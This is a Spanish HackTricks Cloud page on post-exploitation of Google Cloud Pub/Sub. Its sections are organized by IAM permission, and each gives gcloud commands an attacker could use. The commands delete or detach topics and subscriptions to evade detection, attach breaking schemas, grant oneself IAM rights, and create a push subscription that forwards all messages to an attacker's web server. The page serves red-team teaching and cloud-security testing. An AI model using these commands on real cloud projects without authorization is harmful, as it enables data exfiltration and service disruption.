 # GCP - Post Explotación de Pub/Sub

<details>

<summary><strong>Aprende a hackear AWS desde cero hasta convertirte en un experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Pub/Sub

Para obtener más información sobre Pub/Sub, consulta la siguiente página:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publica un mensaje en un tema, útil para **enviar datos inesperados** y activar funcionalidades inesperadas o explotar vulnerabilidades:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Útil para evitar que una suscripción reciba mensajes, tal vez para evitar ser detectado.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Útil para evitar que una suscripción reciba mensajes, tal vez para evitar ser detectado.\
Es posible eliminar un tema incluso si tiene suscripciones asociadas.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Utiliza este permiso para actualizar alguna configuración del tema y así interrumpirlo, como `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Otórgate permiso para llevar a cabo cualquiera de los ataques anteriores.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Obtén todos los mensajes en un servidor web:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Crear una suscripción y usarla para **extraer mensajes**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Eliminar una suscripción** podría ser útil para interrumpir un sistema de procesamiento de registros o algo similar:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### &#x20;`pubsub.subscriptions.update`

Utiliza este permiso para actualizar alguna configuración y así almacenar los mensajes en un lugar al que puedas acceder (URL, tabla de Big Query, Bucket) o simplemente para interrumpirlo.

### `pubsub.subscriptions.setIamPolicy`

Otórgate los permisos necesarios para llevar a cabo cualquiera de los ataques comentados anteriormente.

### `pubsub.schemas.delete`

Elimina un esquema para poder enviar mensajes que no cumplan con el esquema:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Ataque un esquema a un tema para que los mensajes no lo cumplan y, por lo tanto, el tema se vea interrumpido.\
Si no hay esquemas, es posible que necesites crear uno.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.setIamPolicy`

Otórgate los permisos necesarios para realizar cualquiera de los ataques comentados anteriormente.

### `pubsub.snapshots.create`,  `pubsub.snapshots.seek`

Esto creará una instantánea de todos los mensajes no confirmados y los devolverá a la suscripción. No es muy útil para un atacante, pero aquí está:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Red Team de HackTricks en AWS)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
